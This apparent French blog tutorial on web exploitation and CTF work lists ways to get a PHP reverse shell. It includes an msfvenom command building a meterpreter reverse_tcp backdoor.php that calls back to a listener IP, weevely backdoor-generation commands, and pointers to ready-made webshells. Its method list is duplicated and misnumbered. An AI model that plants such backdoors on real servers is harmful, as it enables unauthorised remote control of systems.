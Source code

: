 ```yaml
---
layout: post
section-type: post
title: Reverse shell
category: exploitation web
tags: [ 'reverse_shell', 'web', 'hacking', 'ctf' ]
---
```


---------------------------------------------
#### Mise en garde
Le but de cet article est de vous montrer les différentes façons de vous munir d'un "reverse shell".

Pour des raisons de modularité, un article traitant le reverse shell de façon complète sera rédigé et il fera réference à celui-ci ainsi qu'à plein d'autres disponibles sur mon site. 

---------------------------------------------

#### Pré requis 
1-Avoir les bases d'un langage de programmation côté serveur <br/>
2-Avoir installer et configurer une machine orientée "sécurité" (Kali linux, Parrot OS,...) <br/>
3-Avoir fait les configurations nécessaires dans votre routeur si la connexion à la machine sera distante

---------------------------------------------

#### Méthode 1: shell par défaut sur kali linux
  <pre><code data-trim class="yaml">
      #répertoire par défaut des "reverse shell" sur Kali linux
      cd /usr/share/webshell/php 
  </code></pre> <br/>

NB: Il ne faudra pas oublier de faire les modifications qui vont bien dans ce fichier notamment votre IP et port d'écoute.

---------------------------------------------

#### Méthode 2: créer un reverse shell avec meterpreter
  <pre><code data-trim class="yaml">
      #reverse shell nommé enregistré sur le bureau sous "backdoor.php" au profit de la machine d'IP 10.23.201.17 écoutant sur le port 1234
      msfvenom -p php/meterpreter/reverse_tcp LHOST=10.23.201.17 LPORT=1234 > /Desktop/backdoor.php
  </code></pre> <br/>

---------------------------------------------

#### Méthode 3: créer un reverse shell avec weevely
  <pre><code data-trim class="yaml">
      #reverse shell enregistré sur le bureau sous "backdoor.php" avec le mot de passe "noLog_hhhhhhhh"
      weevely generate noLog_hhhhhhhh /root/Desktop/backdoor.php 
  </code></pre> <br/>

NB: Il ne faudra pas oublier de faire les modifications qui vont bien dans ce fichier notamment votre IP et port d'écoute.

---------------------------------------------

#### Méthode 4: créer un reverse shell avec weevely
  <pre><code data-trim class="yaml">
      #reverse shell enregistré sur le bureau sous "backdoor.php" avec le mot de passe "noLogMe"
      weevely generate noLogMe /root/Desktop/backdoor.php 
  </code></pre> <br/>

NB: Il ne faudra pas oublier de faire les modifications qui vont bien dans ce fichier notamment votre IP et port d'écoute.

---------------------------------------------

#### Méthode 6: utiliser Internet
  visiter le site web : [http://pentestmonkey.net/](http://pentestmonkey.net/), par exemple

NB: Il ne faudra pas oublier de faire les modifications qui vont bien dans le fichier téléchargé notamment votre IP et port d'écoute.

---------------------------------------------

#### Méthode 7: codez vous-même
  Nous reviendrons plus tard sur la logique de codage de votre propre reverse shell et le pratiquerons en C, python et PHP. Vous devinez donc que vous aurez besoin de savoir programmer en C ou en python ou en PHP en plus d'avoir des notions de base en réseau informatique

---------------------------------------------
